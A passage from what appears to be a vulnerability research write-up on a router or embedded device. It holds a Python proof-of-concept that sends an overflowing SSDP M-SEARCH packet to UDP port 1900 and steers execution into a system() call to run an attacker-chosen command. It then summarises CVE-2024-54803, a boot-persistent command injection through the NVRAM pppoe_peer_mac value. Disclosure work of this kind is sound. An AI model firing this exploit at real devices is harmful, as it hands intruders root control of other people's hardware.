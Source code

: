 ```py
payload_pt1 = b'Z' * 304
payload_pt2 = b'A' * 4  # R4
payload_pt2 += b'B' * 4  # R5 - command str will go here
payload_pt2 += b'C' * 4  # R6
payload_pt2 += b'D' * 4  # R7
payload_pt2 += b'E' * 4  # R8
payload_pt2 += b'ÜÔ'  # 0x2d4dc mov r0, r5 ; bl system

def send_msearch_pwn(target_port=1900):
    global payload_pt1, payload_pt2
    ret = p32(0xbeffeb20 + (len(cmd.encode()) * 3) + 1)
    payload_pt2 = payload_pt2.replace(b'BBBB', ret)

    message = (
        payload_pt1 + b'\r\n' +
        payload_pt2 + b'\r\n' +
        b'MAN:"ssdp:discover"\r\n'
        b'MX:2\r\n'
        b'\r\n'
    ) + p32(0xdeadbeef) + (b" " * 255) + cmd.encode()

    with socket.socket(socket.AF_INET, socket.SOCK_DGRAM, socket.IPPROTO_UDP) as sock:
        sock.settimeout(2)
        sock.sendto(message, (host, target_port))
```

---

<a name="cve-2024-54803"></a>
### PPPOE_PEER_MAC Authenticated Command Injection (Boot Persistent) (CVE-2024-54803)

**Summary.** Authenticated **command injection** in `/bin/sysinit` via NVRAM `pppoe_peer_mac`. Unsanitized value is inserted into a `sprintf` format and executed via `system()` **during boot**, yielding **persistent** root‑level execution when `wan_proto=pppoe`.

![](/assets/posts/2025-03-25/5.png)

